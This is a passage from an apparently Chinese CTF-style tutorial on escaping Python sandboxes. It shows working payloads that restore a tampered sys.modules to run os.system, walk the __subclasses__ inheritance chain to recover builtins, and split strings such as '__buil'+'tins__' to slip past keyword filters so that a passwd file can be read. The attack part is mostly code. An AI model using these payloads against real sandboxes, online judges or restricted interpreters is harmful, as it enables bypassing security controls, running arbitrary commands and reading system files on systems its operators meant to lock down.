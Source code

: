 ### 恢复 sys.modules
一些过滤中可能将 `sys.modules['os']` 进行修改. 这个时候即使将 os 模块导入进来,也是无法使用的.
```py
>>> sys.modules['os'] = 'not allowed'
>>> __import__('os').system('ls')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'str' object has no attribute 'system'
```
由于很多别的命令执行库也使用到了 os,因此也会受到相应的影响,例如 subprocess
```py
>>> __import__('subprocess').Popen('whoami', shell=True)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/home/kali/.pyenv/versions/3.8.10/lib/python3.8/subprocess.py", line 688, in <module>
    class Popen(object):
  File "/home/kali/.pyenv/versions/3.8.10/lib/python3.8/subprocess.py", line 1708, in Popen
    def _handle_exitstatus(self, sts, _WIFSIGNALED=os.WIFSIGNALED,
AttributeError: 'str' object has no attribute 'WIFSIGNALED'
```
由于 import 导入模块时会检查 sys.modules 中是否已经有这个类，如果有则不加载,没有则加载.因此我们只需要将 os 模块删除,然后再次导入即可.
```py
sys.modules['os'] = 'not allowed' # oj 为你加的

del sys.modules['os']
import os
os.system('ls')
```

### 基于继承链获取
在清空了 `__builtins__`的情况下，我们也可以通过索引 subclasses 来找到这些内建函数。
```py
# 根据环境找到 bytes 的索引，此处为 5
>>> ().__class__.__base__.__subclasses__()[5]
<class 'bytes'>
```
## 绕过基于字符串匹配的过滤

### 字符串变换

#### 字符串拼接
在我们的 payload 中，例如如下的 payload，`__builtins__` `file` 这些字符串如果被过滤了，就可以使用字符串变换的方式进行绕过。
```py
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('E:/passwd').read()

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__buil'+'tins__']['fi'+'le']('E:/passwd').read()
```
当然，如果过滤的是 `__class__` 或者 `__mro__` 这样的属性名，就无法采用变形来绕过了。
